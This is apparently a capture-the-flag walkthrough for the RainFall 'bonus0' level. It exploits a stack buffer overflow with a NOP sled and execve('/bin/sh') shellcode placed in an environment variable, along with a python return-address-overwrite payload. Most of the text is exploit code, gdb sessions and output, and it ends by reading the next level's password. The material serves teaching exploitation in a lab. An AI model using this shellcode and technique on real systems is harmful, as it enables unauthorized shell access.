 # Walkthrough

## Solution
```
export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```
```
(python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x7c\xf8\xff\xbf' + 'A' * 7"; cat -) | ./bonus0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA|���AAAAAAA��� AAAAAAAAA|���AAAAAAA���
pwd
/home/user/bonus0
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Explanation

### Execution

```
bonus0@RainFall:~$ ./bonus0 
 - 
hello
 - 
you
hello you
bonus0@RainFall:~$ ./bonus0
 - 
he llo
 - 
you
he llo you
```
-> wait for 2 inputs and concatenate them


### Disassembly

```
info var
data_start

info function
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  

Buffer addresses:  
buf = 0xbffff6f6  
buf1 = 0xbffff6a8  
buf2 = 0xbffff6bc  


### Execution

```
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
-> the 2nd input cause a segfault - **Offset is 9**
The buffer is only 20 chars, so we only have 11 bytes available to inject a shellcode, which is not enough.

Let's save our shellcode in an env variable:  
*Shellcode:*  
```
'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' - 45 chars
```  

The actual address of the shellcode must be known ahead of time, which can be difficult to know in a dynamically changing stack.
By creating a large array (or sled) of these NOP instructions and placing it before the shellcode, if the EIP returns to any address found in the NOP sled, the EIP will increment while executing each NOP instruction, one at a time, until it finally reaches the shellcode. This means that as long as the return address is overwritten with any address found in the NOP sled, the EIP will slide down the sled to the shellcode, which will execute properly.  

**Shellcode env:**  
```
export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```  

#### Find the Shellcode env variable address

```
$> gdb bonus0
(gdb) break main
Breakpoint 1 at 0x80485a7
(gdb) run
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/s *((char **)environ)
0xbffff86c:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
```  

the beginning of our NOP + shellcode is at address 0xbffff86c
-> we have to choose an address that contains a NOP (\x90), so that it will sled into the beginning of our shellcode and execute it

```
(gdb) x/12wx 0xbffff86c
0xbffff86c:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xbffff87c:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff88c:	0x90909090	0x90909090	0x90909090	0x90909090
```

-> let's pick 0xbffff87c

> (python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x7c\xf8\xff\xbf' + 'A' * 7"; cat -) | ./bonus0

<!-- 4095 + \n = 4096, to fill the buf3, \n because of the strchr(buf3, '\n') -->  
<!-- 'A' * 9 because the offset of the 2nd input that causes the segfault is 9 -->  
<!-- address of the shellcode (4 bytes) -->
<!-- 'A' * 7, so that we have 20 bytes for buf2 (9 + 4 + 7). -->  


source:  
https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x270-stackoverflow.html  
x/s *((char **)environ) to get address of env variables